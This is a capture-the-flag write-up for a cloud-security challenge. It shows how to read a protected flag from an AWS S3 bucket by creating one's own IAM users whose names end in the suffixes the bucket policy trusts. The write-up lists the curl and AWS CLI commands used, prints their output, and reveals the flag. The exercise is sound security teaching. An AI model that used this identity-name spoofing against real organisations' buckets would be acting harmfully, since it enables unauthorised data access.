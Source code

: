 
## [Cloud Security] Iam Mr.Cow and Mr.Cloud

```
Iam Mr. Cow or Mr. Cloud?

- Author: Mr.Cow
- 498 Points (9 Solves)
- ★★★★


Out on the edge of the pasture, a ladder climbs into the sky. At the top sits a quiet vault of silver—guarded by two peculiar doormen:

Mr. Cow, who lets you peek inside but never touch.

Mr. Cloud, who lets you take exactly one thing—if he believes who you are.

A tiny storefront page is all you’re given. It looks harmless, but it reflects the sky and whispers just enough about the rules above. In this realm, names matter more than keys. Those who shape their identity with care will earn a glance… and, with the right guise, the right to claim the treasure.
```


Out on the edge of the pasture, a ladder climbs into the sky. At the top sits a quiet vault of silver—guarded by two peculiar doormen:

Mr. Cow, who lets you peek inside but never touch.

Mr. Cloud, who lets you take exactly one thing—if he believes who you are.

A tiny storefront page is all you’re given. It looks harmless, but it reflects the sky and whispers just enough about the rules above. In this realm, names matter more than keys. Those who shape their identity with care will earn a glance… and, with the right guise, the right to claim the treasure.

---


## Hints:
1. PS: You’ll want your own AWS playground for this—signing up for a free account (no charges for basic CLI calls) is enough. Once you’re there, remember that aws s3api get-bucket-policy is often the first polite knock on a guarded door.

2. The vault responds to IAM principals whose ARN names end in MrCow or MrCloud; tailor your profile suffix and each guardian reveals their part.

---

# Observations:

When downloading the zip, we are greeted with a index.html file. Opening it in a browser, shows a simple webpage with an SVG image.


![image](/cuhk25ctf/iam_mrcow_or_mrcloud/cowcloud.svg)

[index.html](/cuhk25ctf/iam_mrcow_or_mrcloud/index.html)

Aside from that, the title of this challenge starts with IAM, which is a service in AWS for Identity and Access Management. This hints that we might be dealing with access permissions.

---

# Solution:

## Step 1: Inspection

The SVG image has s3://assets/ written on it. This should be referring to the S3 bucket of AWS.

Inspecting the page source, we see that the <img> tag has a src attribute with the value of <img src=[https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg](https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg) />.

The URL is pointing to an S3 bucket named mr-cow-or-mr-cloud-secret-20250916-a1 in the us-east-1 region.

## Step 2: Accessing the S3 Bucket

We can first attempt to publicly access this file:

```
curl "https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/assets/cowcloud.svg"
```

From the results, we can see we can publicly access it.

```
<?xml version="1.0" encoding="UTF-8"?>
<svg width="640" height="360" viewBox="0 0 640 360" xmlns="http://www.w3.org/2000/svg">
  <defs>
    ... (etc) ... 
```

We now try accessing other files such as flag.txt:
```
curl "https://mr-cow-or-mr-cloud-secret-20250916-a1.s3.us-east-1.amazonaws.com/flag.txt"
```

We get an Access Denied error. Rip :(
```
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied</Message><RequestId>N94ZHM5K3BDNM09Q</RequestId><HostId>93pEPa99upHuWWYa6sTij+oR/z0Lwq1DDnCyWyKTnKwshx1g+6TyjuN8nPi9V31h8g9UNqWYG8o=</HostId></Error>
```

This means other files require permissions to access.

## Step 3: Understanding the Bucket Policy
Since the hints suggest we need an IAM profile of our own, we can make an account on AWS and create two profiles with the suffix of MrCow or MrCloud.

Any IAM profile name is fine, as long as it ends with MrCow and MrCloud respectively.

For my case, I used TestMrCow and TestMrCloud.


```sh
# Configure TestMrCow profile
aws configure set aws_access_key_id <redacted> --profile TestMrCow
aws configure set aws_secret_access_key <redacted> --profile TestMrCow
aws configure set region us-east-1 --profile TestMrCow

# Configure TestMrCloud profile
aws configure set aws_access_key_id <redacted> --profile TestMrCloud
aws configure set aws_secret_access_key <redacted> --profile TestMrCloud
aws configure set region us-east-1 --profile TestMrCloud
```

To confirm that we are signed in:

```sh
aws sts get-caller-identity --profile TestMrCow
aws sts get-caller-identity --profile TestMrCloud
```

```
{
    "UserId": "AIDATJS2C3YDDIAQO4SOC",
    "Account": "226748456454",
    "Arn": "arn:aws:iam::226748456454:user/TestMrCow"     
}
{
    "UserId": "AIDATJS2C3YDJJ6L2GSSN",
    "Account": "226748456454",
    "Arn": "arn:aws:iam::226748456454:user/TestMrCloud"   
}
```

Now, let's test the access permissions of both profiles.

```sh
aws s3 ls s3://mr-cow-or-mr-cloud-secret-20250916-a1/ --profile TestMrCow
```
```
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

We get Access Denied.

Now, let's try the other profile.

```sh
aws s3 ls s3://mr-cow-or-mr-cloud-secret-20250916-a1/ --profile TestMrCloud
```
```
An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

We also get Access Denied.

The hint said we should try to get the bucket policy to understand the access rules.

```sh
aws s3api get-bucket-policy --bucket mr-cow-or-mr-cloud-secret-20250916-a1 --profile TestMrCow
aws s3api get-bucket-policy --bucket mr-cow-or-mr-cloud-secret-20250916-a1 --profile TestMrCloud
```

```
An error occurred (AccessDenied) when calling the GetBucketPolicy operation: Access Denied
An error occurred (MethodNotAllowed) when calling the GetBucketPolicy operation: The specified method is not allowed against this resource.
```

Weird! For the TestMrCow profile, we get Access Denied, but for the TestMrCloud profile, we get MethodNotAllowed.

This means that the bucket policy is denying access to TestMrCow, but allowing TestMrCloud to access it.

Let's try to access the objects directly instead of listing them.

```sh
aws s3 cp s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt ./flag.txt --profile TestMrCow
aws s3 cp s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt ./flag.txt --profile TestMrCloud
```

```
fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
Completed 42 Bytes/42 Bytes (43 Bytes/s) with 1 file(s) redownload: s3://mr-cow-or-mr-cloud-secret-20250916-a1/flag.txt to ./flag.txt
```

Oh! We managed to download the flag.txt file!

```
cuhk25ctf{m00n_m45k5_h1d3_th3_cl0ud_g4t3s}
```

*Fun fact, this challenge is solvable by using Github Copilot Agent Mode XD*